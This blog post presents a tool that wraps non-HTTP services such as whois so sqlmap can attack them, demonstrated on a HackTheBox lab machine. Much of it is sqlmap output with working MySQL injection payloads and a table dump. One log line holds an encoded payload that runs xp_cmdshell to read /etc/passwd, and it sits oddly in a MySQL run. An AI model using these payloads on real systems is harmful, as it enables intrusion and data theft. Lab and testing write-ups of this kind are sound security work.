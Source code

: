 ```yaml
---
title: Introducing sqlmap into non-HTTP services.
published: true
---
```


Recently, I was introduced to an interesting problem: How to automate the SQL injection exploitation of non-HTTP service? Non-HTTP service, in this case, means that the communication between client and server isn't HTTP based and might be text or binary. Sometimes services like `whois` are using custom SQL databases, which is an ideal situation to produce unwanted problems because you have to take care of the sanitization of user input. The `whois` service, which I used for testing is working on a non-retired [HachTheBox.eu](https://hackthebox.eu) box, so I can’t do it very detailed, but you should be able to take advantage of the idea itself to create your custom proxies or just give a try with my tool `shiny-garbonzo` - an HTTP wrapper, which will invoke your client and pass to it the `sqlmap's` input. Let’s start by diving into how `sqlmap` works.

## sqlmap®:

`Sqlmap` can automate the SQL injection attack using requests to HTTP/S sites and some magic :) When you think about SQLi you might imagine it's a web application attack vector but other non-HTTP based services are using databases as well so they might be prone. While passing an interesting HTTP request or URL to `sqlmap`, it can test all parameters, no matter if it is GET or POST or even HTTP header based injection point. But what to do when you know that your non-HTTP service is prone to SQL injection attack? You can exploit it manually which is recommended for learning sake or use a tool that is dedicated to that service being able to communicate with it and script your way into.

## Toolbelt:

- sqlmap 1.3.9#stable
- python 3.7

## Tool:

[https://github.com/haqpl/shiny-garbanzo](https://github.com/haqpl/shiny-garbanzo)

## How does it work?

The workflow looks like that:

1. Start IPv4/IPv6 HTTP Server and listen on given IP:PORT.
2. Loop for connections from `sqlmap`.
3. Parse `sqlmap` input and assembly shell command to invoke the tool.
4. Return the output from shell as a valid HTTP response.


## Working example:

Below you can see an example usage of `shiny-garbanzo` and the corresponding output of `sqlmap`, which identified and successfully exploited four different types of SQLi vulnerability in non-HTTP service.


{% include figure.html file="/assets/shiny-garbanzo.png" alt="/assets/shiny-garbanzo.png" number="1" caption="SQL injection in non-HTTP service." %}

```
python3 shiny-garbanzo.py --host '127.0.0.1' --tool "whois" --port 1337 --arguments="-h IP SQLMAP"
[i] Starting server on 1337 PORT
[i] Start with this:
[+] sqlmap -u "127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST /?lgda=9167%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
...
```

```
sqlmap -u "http://127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST --tables 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:20:16 /2019-10-23/

[18:20:17] [WARNING] provided value for parameter 'cmd' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:20:17] [INFO] testing connection to the target URL
[18:20:17] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.7.5rc1')
[18:20:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:20:17] [INFO] testing if the target URL content is stable
[18:20:17] [INFO] target URL content is stable
[18:20:17] [INFO] heuristic (basic) test shows that POST parameter 'cmd' might be injectable (possible DBMS: 'MySQL')
[18:20:17] [INFO] heuristic (XSS) test shows that POST parameter 'cmd' might be vulnerable to cross-site scripting (XSS) attacks
[18:20:17] [INFO] testing for SQL injection on POST parameter 'cmd'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSesfor the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and [18:20:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:20:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:20:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:25] [WARNING] reflective value(s) found and filtering out
[18:20:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:27] [INFO] POST parameter 'cmd' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
...
[18:20:27] [INFO] POST parameter 'cmd' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:20:27] [INFO] testing 'MySQL inline queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:20:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:20:38] [INFO] POST parameter 'cmd' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:20:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:20:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:20:38] [INFO] target URL appears to have 2 columns in query
[18:20:38] [INFO] POST parameter 'cmd' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:20:38] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'cmd' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: cmd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: cmd=-5703') OR 4258=4258#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: cmd=') AND (SELECT 9790 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(9790=9790,1))),0x71627a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mPGW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cmd=') AND (SELECT 9669 FROM (SELECT(SLEEP(5)))ocLO)-- pzpA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: cmd=') UNION ALL SELECT CONCAT(0x716a7a6271,0x736e52496f5a646e56714f70556150784b766b6648696a45746d6869424875725a77684354704b70,0x71627a6b71),NULL#
---
[18:20:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:20:45] [INFO] fetching database names
[18:20:45] [INFO] fetching tables for databases: 'information_schema, whois'
Database: informati\non_schema
[1 table]
...

Database: whois
[1 table]
...

Database: information_schema
[77 tables]
...

[18:20:45] [INFO] fetched data logged to text files under './output/127.0.0.1'

[*] ending @ 18:20:45 /2019-10-23/

```
Profit.

## Credits:

[@kolokokop](https://twitter.com/kolokokop), he did it the same way ;)

<hr>

If you found that idea interesting or have a non-HTTP service in mind which could be tested, please contact me or just comment on the post.
